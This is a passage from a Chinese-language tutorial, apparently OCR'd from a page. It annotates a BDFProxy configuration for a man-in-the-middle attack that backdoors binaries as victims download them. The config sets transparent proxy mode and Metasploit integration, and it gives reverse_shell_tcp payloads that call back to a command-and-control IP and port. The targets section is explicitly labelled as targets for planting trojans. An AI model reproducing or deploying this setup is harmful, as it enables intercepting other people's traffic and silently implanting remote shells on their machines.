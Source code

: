 如果您是直接从git上获得并编译的源代码，请自己寻找您的bdfproxy配置文件的路径

默认的配置文件可能在/etc/bdfproxy下

修改其中的部分内容如下：

```
# 
#   Author Joshua Pitts the.midnite.runr 'at' gmail <d ot > com
#   
#   Copyright (c) 2013-2014, Joshua Pitts
#   All rights reserved.
#

bdf以及bdfproxy的作者为Joshua Pitts，联系方式如上，He is awesome!!!

[Overall]
transparentProxy = transparent  # Modes: None, socks5, transparent, reverse, upstream
我们使用的是透明代理模式，默认的是常规代理模式，区别是常规代理模式通过浏览器设置代理然后通过代理协议传输数据（格式和普通HTTP请求不一样），而透明代理则完全是流量转发格式不变，因此我们在这里使用透明代理
MaxSizeFileRequested = 100000000 # will send a 502 request of large content to the client (server error)
最大文件大小，过大的话会返回502页面，建议使用小文件测试
certLocation = ~/.mitmproxy/mitmproxy-ca.pem
这是mitm的依赖库需要的证书，如果您遇到的报错和这个有关，先手动运行一下mitmf
proxyPort = 8080
sslports = 443, 8443
loglevel = INFO
logname = proxy.log
resourceScript = bdfproxy_msf_resource.rc
这个是和Metasploit结合的resource文件，之后的命令部分和这个文件名有关


[targets]
//挂马的目标
    #MAKE SURE that your settings for host and port DO NOT
    # overlap between different types of payloads

    [[ALL]] # DEFAULT settings for all targets REQUIRED

    LinuxType = ALL     # choices: x86/x64/ALL/None
    WindowsType = ALL   # choices: x86/x64/ALL/None
    FatPriority = x64   # choices: x86 or x64

    FileSizeMax = 60000000  # ~60 MB (just under) No patching of files this large

    CompressedFiles = True #True/False
        [[[LinuxIntelx86]]]
        SHELL = reverse_shell_tcp   # This is the BDF syntax
        默认用的是BDF的reverse_shell_tcp，其他选项看BDF文档
        HOST = 192.168.1.163        # The C2
        这是PAYLOAD中的LHOST，就是开着Metasploit等着SHELL反弹的设备IP
        PORT = 8888
        端口不要和PROXY的重复了
        SUPPLIED_SHELLCODE = None
        MSFPAYLOAD = linux/x86/shell_reverse_tcp    # MSF syntax
        这个是Metasploit的PAYLOAD名称，相当于SET PAYLOAD命令

```
